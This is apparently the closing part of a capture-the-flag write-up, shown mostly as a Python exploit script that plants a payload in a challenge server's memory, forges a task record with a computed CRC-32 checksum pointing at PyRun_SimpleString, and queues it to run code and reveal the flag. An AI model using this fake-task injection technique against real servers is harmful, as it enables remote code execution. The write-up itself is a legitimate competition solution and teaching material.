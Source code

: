 ```python
# Load Python code on server
python_payload_addr = debug(PYTHON_PAYLOAD)

# Activate async requests
activate(ACTIVATION_CODE)

# Run a quick async task to initialize the CRC-32 polynomial
run(True, "simulate", "1")
time.sleep(0.5)

# Prepare a fake task
payload  = b"\xCA\xFE\xBA\xBE\xCA\xFE\xBA\xBE"
payload += python_payload_addr.to_bytes(8, "little")
payload += b"\x00\x00\x00\x00\x00\x00\x00\x00"
payload += PY_RUN_SIMPLE_STRING.to_bytes(8, "little")
payload += b"\x00\x00\x00\x00\x00\x00\x00\x00"
checksum = crc32(payload, rand4_local)
payload += checksum.to_bytes(8, "little")
fake_task_addr = debug(payload)

# Send the fake task to the queue
activate(b'01234567'+fake_task_addr.to_bytes(8, "little"))
# Give it some time to settle
time.sleep(1.5)

# Grab the "improved" contact URL
r = requests.get(URL+"/contact/", allow_redirects=False)
print(urllib.parse.unquote(r.headers['Location']))
```

---

## shc2024{did_you_know_python_has_a_heap_O.o?}


<hr>

&copy; [muflon77](https://library.m0unt41n.ch/players/805ae1c8-9fe4-5816-b4a4-5057fa6eedb1)

